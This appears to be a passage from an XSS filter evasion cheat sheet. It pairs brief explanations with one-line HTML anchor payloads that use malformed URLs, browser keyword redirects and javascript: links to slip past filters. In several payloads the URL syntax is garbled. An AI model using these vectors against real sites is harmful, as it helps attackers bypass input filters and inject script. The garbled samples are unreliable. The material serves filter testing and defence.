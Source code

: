 Firefox uses Google’s “feeling lucky” function to redirect the user to any keywords you type in. So if your exploitable page is the top for some random keyword (as you see here) you can use that feature against any Firefox user. This uses Firefox’s keyword: protocol. You can concatenate several keywords by using something like the following keyword:XSS+RSnake for instance. This no longer works within Firefox as of 2.0.

```js
<A HREF="//google">XSS</A>
```

Google “feeling lucky” part 2.
This uses a very tiny trick that appears to work Firefox only, because of it’s implementation of the “feeling lucky” function. Unlike the next one this does not work in Opera because Opera believes that this is the old HTTP Basic Auth phishing attack, which it is not. It’s simply a malformed URL. If you click okay on the dialogue it will work, but as a result of the erroneous dialogue box I am saying that this is not supported in Opera, and it is no longer supported in Firefox as of 2.0:

```js
<A HREF="http网址ha.ckers.org@google">XSS</A>
```

Google “feeling lucky” part 3.
This uses a malformed URL that appears to work in Firefox and Opera only, because if their implementation of the “feeling lucky” function. Like all of the above it requires that you are #1 in Google for the keyword in question (in this case “google”):

```js
<A HREF="http网址google:ha.ckers.org">XSS</A>
```

Removing CNAMEs
When combined with the above URL, removing www. will save an additional 4 bytes for a total byte savings of 9 for servers that have this set up properly):

```js
<A HREF="http网址google.com/">XSS</A>
```

Extra dot for absolute DNS:

```js
<A HREF="http网址www.google.com./">XSS</A>
```

JavaScript Link Location:

```js
<A HREF="javascript:document.location='http网址www.google.com/'">XSS</A>
```

Content Replace as Attack Vector
Assuming http网址www.google.com/ is programmatically replaced with nothing). I actually used a similar attack vector against a several separate real world XSS filters by using the conversion filter itself (here is an example) to help create the attack vector (IE: java&\#x09;script: was converted into java	script:, which renders in IE, Netscape 8.1+ in secure site mode and Opera):

```js
<A HREF="http网址www.google.com/ogle.com/">XSS</A>
```
